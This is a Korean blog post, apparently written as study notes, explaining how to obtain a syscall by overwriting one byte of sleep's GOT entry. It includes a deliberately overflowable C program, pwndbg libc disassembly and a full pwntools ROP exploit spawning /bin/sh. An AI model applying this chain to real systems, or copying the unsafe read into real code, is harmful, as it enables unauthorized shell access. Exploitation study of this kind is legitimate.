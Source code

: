 ```yaml
---
layout: post
title: "Overwriting 1-byte to call syscall"
date: 2018-11-21
excerpt: "syscall gadget making"
tags: [study]
comments: true
--- 
```

syscall 가젯이 존재하지 않고 libc leak 벡터가 보이지 않을 때 syscall을 부를 수 있는 방법이 있습니다.

제가 사용 중인 트러스트 동아리 서버 libc 기준으로 설명 하겠습니다.

```c
#include <stdio.h>

void help()
{
	asm("pop %rax");
	asm("pop %rdx");
	asm("ret");
}

int main()
{
	char buf[24];

	sleep(1);

	read(0, buf, 512);
	
	return 0;
}
```
위와 같은 코드를 작성했습니다. 편의를 위해 가젯 몇 개를 추가했습니다.

사용할 만한 plt는 read 밖에 없기에, 일반적인 방법으로 leak을 할 수도 없는 상황입니다. 일단 libc를 살펴보겠습니다.

```
pwndbg> x/20i sleep
   0xcc230 <__sleep>:	push   rbp
   0xcc231 <__sleep+1>:	push   rbx
   0xcc232 <__sleep+2>:	mov    eax,edi
   0xcc234 <__sleep+4>:	sub    rsp,0x18
   0xcc238 <__sleep+8>:	mov    rbx,QWORD PTR [rip+0x2f7c39]        # 0x3c3e78
   0xcc23f <__sleep+15>:	mov    rdi,rsp
   0xcc242 <__sleep+18>:	mov    rsi,rsp
   0xcc245 <__sleep+21>:	mov    QWORD PTR [rsp+0x8],0x0
   0xcc24e <__sleep+30>:	mov    QWORD PTR [rsp],rax 
   0xcc252 <__sleep+34>:	mov    ebp,DWORD PTR fs:[rbx]
   0xcc255 <__sleep+37>:	call   0xcc2e0 <nanosleep>
   0xcc25a <__sleep+42>:	test   eax,eax
   0xcc25c <__sleep+44>:	js     0xcc270 <__sleep+64>
   0xcc25e <__sleep+46>:	mov    DWORD PTR fs:[rbx],ebp
   0xcc261 <__sleep+49>:	add    rsp,0x18
   0xcc265 <__sleep+53>:	xor    eax,eax
   0xcc267 <__sleep+55>:	pop    rbx
   0xcc268 <__sleep+56>:	pop    rbp
   0xcc269 <__sleep+57>:	ret    
   0xcc26a <__sleep+58>:	nop    WORD PTR [rax+rax*1+0x0]
pwndbg> 
   0xcc270 <__sleep+64>:	mov    eax,DWORD PTR [rsp]
   0xcc273 <__sleep+67>:	add    rsp,0x18
   0xcc277 <__sleep+71>:	pop    rbx
   0xcc278 <__sleep+72>:	pop    rbp
   0xcc279 <__sleep+73>:	ret    
   0xcc27a:	nop    WORD PTR [rax+rax*1+0x0]
   0xcc280 <pause>:	cmp    DWORD PTR [rip+0x2fd4b9],0x0        # 0x3c9740 <__libc_multiple_threads>
   0xcc287 <pause+7>:	jne    0xcc299 <pause+25>
   0xcc289 <__pause_nocancel>:	mov    eax,0x22
   0xcc28e <__pause_nocancel+5>:	syscall                               <------------ SYSCALL!
   0xcc290 <__pause_nocancel+7>:	cmp    rax,0xfffffffffffff001
   0xcc296 <__pause_nocancel+13>:	jae    0xcc2c9 <pause+73>
   0xcc298 <__pause_nocancel+15>:	ret    
   0xcc299 <pause+25>:	sub    rsp,0x8
   0xcc29d <pause+29>:	call   0x1150d0 <__libc_enable_asynccancel>
   0xcc2a2 <pause+34>:	mov    QWORD PTR [rsp],rax
   0xcc2a6 <pause+38>:	mov    eax,0x22
   0xcc2ab <pause+43>:	syscall                                         <------------ SYSCALL!
   0xcc2ad <pause+45>:	mov    rdi,QWORD PTR [rsp]
   0xcc2b1 <pause+49>:	mov    rdx,rax
```
문제에서 사용된 sleep에서 조금 내려가보니 하위 1 바이트만 바뀐 위치에 syscall이 존재합니다. (0xcc230 -> 0xcc28e, 0xcc2ab)

여기서 중요한 사실은, libc의 하위 1바이트는 고정되는 값이라는 점입니다.

따라서 sleep의 하위 1 바이트를 read를 이용해 syscall의 값으로 덮어쓴다면, sleep이 call 될 때 syscall이 호출됩니다.

예제로 사용된 바이너리를 설명한 기법과 syscall을 이용하여 exploit 한다면 아래와 같은 익스 코드를 짤 수 있습니다.

```python
from pwn import *

p = process('./sysleep')
e = ELF('./sysleep')

prax_rdx  = 0x40056a
prdi      = 0x400613
prsi_pr   = 0x400611
prdx 	  = 0x40056b

plt_read  = e.plt['read']
got_sleep = e.got['sleep']
plt_sleep = e.plt['sleep']

pay = 'A' * 40

pay += p64(prdi)    + p64(0)
pay += p64(prsi_pr) + p64(e.bss()) + p64(0)
pay += p64(prdx)    + p64(8) 
pay += p64(plt_read)

pay += p64(prdi)    + p64(0)
pay += p64(prsi_pr) + p64(got_sleep) + p64(0)
pay += p64(prdx)    + p64(4)
pay += p64(plt_read)

pay += p64(prax_rdx)
pay += p64(59) # rax : 59  = execve()
pay += p64(0) # rdx : NULL
pay += p64(prdi)
pay += p64(e.bss()) # rdi : bss = '/bin/sh\x00'
pay += p64(prsi_pr)
pay += p64(0) # rsi : NULL
pay += p64(0)	

pay += p64(plt_sleep)

sleep(1.5) 

p.send(pay)
p.send('/bin/sh\x00')
p.send('\x8e')

p.interactive()
```

굳이 sleep이 아니더라도 다른 함수에 이러한 기법을 적용할 수 있습니다. (ex. write, read)
